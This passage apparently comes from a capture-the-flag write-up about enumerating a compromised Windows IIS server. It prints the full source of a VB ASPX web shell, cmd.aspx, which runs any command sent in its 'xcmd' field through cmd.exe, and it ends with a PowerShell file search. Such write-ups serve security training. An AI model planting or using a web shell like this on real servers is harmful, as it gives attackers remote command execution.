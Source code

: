 

I can't access anything in that directory or the Administrator directory
from this shell.

#### Web

I can check out the web directories. `C:\inetpub\wwwroot\cmd.aspx` shows
how it runs a command:



    <%@ Page Language="VB" Debug="true" %>
    <%@ import Namespace="system.IO" %>
    <%@ import Namespace="System.Diagnostics" %>

    <script runat="server">
    Function RunCmd(command)
      Dim res as integer
      Dim myProcess As New Process()
      Dim myProcessStartInfo As New ProcessStartInfo("c:\windows\system32\cmd.exe")
      myProcessStartInfo.UseShellExecute = false
      myProcessStartInfo.RedirectStandardOutput = true
      myProcess.StartInfo = myProcessStartInfo
      myProcessStartInfo.Arguments="/c " + command
      myProcess.Start()
      Dim myStreamReader As StreamReader = myProcess.StandardOutput
      Dim myString As String = myStreamReader.Readtoend()
      res=myProcess.ExitCode
      myProcess.Close()

      RunCmd= res
    End Function
    </script>

    .md>
    <body>
    <%
    dim t as integer
    if request("xcmd") <> "" then
       t=RunCmd(request("xcmd"))
        response.write("Exit Status=" &t)
    end if
    %>
    <form action="cmd.aspx" method=POST>
    <p>Enter your shell command: <input type=text name=xcmd size=40> </form> </body> <.md>



Not much else I can do with that now. I'll notice that `test.asp` isn't
in the `C:\inetpub\wwwroot` directory. It's actually in
`C:\inetpub\public`:



    Minion> ls -path \inetpub -Filter test.asp -recurse -erroraction silent


        Directory: C:\inetpub\public
